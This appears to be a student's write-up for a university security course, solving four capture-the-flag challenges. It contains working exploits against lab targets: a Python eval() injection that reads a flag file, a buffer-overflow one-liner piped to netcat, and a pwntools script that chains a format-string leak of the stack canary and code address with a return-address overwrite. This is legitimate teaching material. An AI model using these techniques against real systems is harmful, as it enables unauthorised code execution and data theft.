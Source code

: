 # IDATT2503 - Solution Exercise 2



1. **1. Writeup PyCalc challenge**

   **Summary**

   The PyCalc online calculator is  vulnerable to arbitrary code injection via the "op" command, which uses  eval(), an unsafe function when untrusted user input is passed to it.  Arbitrary Python code can be injected and executed server side.

   **Steps to reproduce**

   1. Connect to the calculator using: nc 10.9.8.1 5006
   2. Enter: op open('flag.txt').read()
   3. View the flag

   **Impact**

   The bug opens the door to execution of  arbitrary Python code inside the Docker container. The impact can be  denial of service by crashing the calculator app, launching network  attacks using the calculator as an anonymous proxy, accessing internal  NTNU assets behind the firewall.

   **2. Reversing**

   The vulnerability is a format string  vulnerability. A user-controlled buffer should never be passed as the  format argument to the *printf family of functions because format  placeholders (e.g., %s) would be interpreted by the function, and lead  to a number of different possibilities of leaking sensitive information  and writing to arbitrary memory locations. The fix is to use the  function call like printf("%s", str);

   **3. Hello (ctf.idi.ntnu.no)**

   This is a classic buffer overflow. Using checksec we can see that the binary is not compiled with PIE (position  independent executable), therefore the address we see in disassembly  will be the address we want to write over the return address with. There is also no stack canary. NX is enabled, so we cannot use our own  shellcode to exfiltrate the flag.

   First step is disassembly:

   objdump -D -M intel hello

   Examining the disassembly we can see a  function "flag" at address 0x0000000000401192 that does some work with a file (fopen/fread/puts libc function calls). Next, looking at main(),  we can see the stack is enlarged by 0x20 in the function prologue:

    40123f:    48 83 ec 20       sub   rsp,0x20

   So we can assume the buffer written to  by the gets() call later on in main() is 32 bytes. The binary is 64-bit, so we'll need to overwrite 8 bytes of rbp and an 8 byte return address, in addition to the 32 bytes of the buffer.

   Without much more effort, we can construct the following exploit:

   python3 -c 'import sys; from pwn import p64; sys.stdout.buffer.write(b"A"*40+p64(0x0000000000401192)+b"\n")' | nc 10.9.8.1 5009

   Note that we need to append a trailing  newline "\n" because netcat will send data over the TCP connection when  it encounters a newline. This is not needed (but harmless) if you are  testing with the binary locally.

   **4. ctf.idi.ntnu.no bird**

   This challenge is a bit more advanced  and the attacker needs to chain together two vulnerabilities: a format  string vulnerability and a buffer overflow to control the instruction  pointer.

   Steps

   1. Reverse the binary, we see a call to printf passing the user buffer as the format string, so we know we can leak the stack
   2. Find the offset to flag(), note this
   3. Leak the stack: python3 -c "print('%p '*32)" | ./bird
   4. Look for addresses on the stack pointing to the program section (map in /proc/`pidof bird`/maps) - this can be found for example in %24$p
   5. Look for the stack canary (64 bit value with \x00 least significant byte) - found in %23$p
   6. We see from reversing that an unsafe call to gets is used on the same buffer as above
   7. Given the stack layout, we need: <128 bytes to fill the  buffer><8 bytes><8 bytes canary><8 bytes frame  pointer><8 bytes address of flag()>

   The leaks are necessary because the binary is compiled with PIE and stack protection (as reported by checksec).

   See pwnbird.py for rest of exploit.

   gdb helps for exploration and calculation of offset to flag() :)

   ```python
   --- PoC pwnbird.py ---
   
   from pwn import *
   import sys
   
   \#p = process('./bird')
   p = remote('ctf.idi.ntnu.no',5000)
   
   p.readuntil(b': ')
   
   p.send(b'%23$p %24$p\n')
   line = p.readline()
   print(line)
   canary,addr = line.split()
   canary = int(canary, 16)
   addr = int(addr, 16)
   
   addr = addr - 0x19b # Difference between leaked stack address and flag()
   print("canary:",hex(canary))
   print("flag() addr:",hex(addr))
   
   print(p.readuntil(b': '))
   
   p.send(b'A'*136+p64(canary)+b'A'*8+p64(addr)+b'\n')
   
   try:
     print(p.readline()) # Thanks
     print(p.readline()) # flag
   except EOFError:
     print("eof")
   
   \---
   ```
